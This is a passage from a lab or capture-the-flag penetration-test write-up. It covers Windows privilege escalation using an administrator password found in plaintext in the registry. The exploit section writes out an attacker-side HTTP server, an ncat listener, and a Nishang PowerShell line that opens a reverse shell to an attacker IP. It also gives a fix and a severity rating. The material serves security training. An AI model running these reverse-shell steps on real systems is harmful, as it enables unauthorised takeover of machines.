 **user.txt Contents**

```texinfo
User without rights to read user.txt, showed in Privilege escalation section
```

#### Privilege Escalation


**Vulnerability Exploited:** Plain text password stored in the registry.

**Vulnerability Explanation:** It was found the registry had stored in Plain text the password of the Administrators' user, by using this and a Powershell script  as "run-as", an attacker can execute arbitrary code on the system as the user Administrators'.
In this test it was executed a reverse shell.

![Administrators reg plaintext password](../bart/screenshots/admin-pass.png)

**Vulnerability Fix:** Delete the Administrators' Password from the Registry and keep a policy to not have them stored in plaintext and/or stored at all.

**Severity:** \textcolor{red}{Critical}.

**Exploit Code:** A temporal web server was and listener on port 443 were started up on the attacker machine, and by using the Run-As functionality from the OS plus the administrator credentials previously gathered, it was downloaded as administrator a Powershell reverse shell script from attacker machine, once it got in memory it created a reverse shell with full privileges against the attacker machine.

On a terminal on the attacker machine, an http server was started:

```texinfo
sudo python3 -m http.server 80
```

In parallel inside a second terminal on the attacker machine, a listener on port 443 was executed:

```texinfo
sudo rlwrap ncat -lvnp 443
```

The next line was added at the end of `Invoke-PowerShellTcp.ps1`:

```Powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 443
```

Finally a small script for "Run-As" was executed:

![Powershell run-as](../bart/screenshots/powershell-script.png)

The code for the Powershell reverse shell, can be found in the next link:

```texinfo
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```

**user.txt and root.txt Screenshot Here:**

![Reverse shell as administrator, user.txt and root.txt](../bart/screenshots/admin-shell.png){ width=60% }
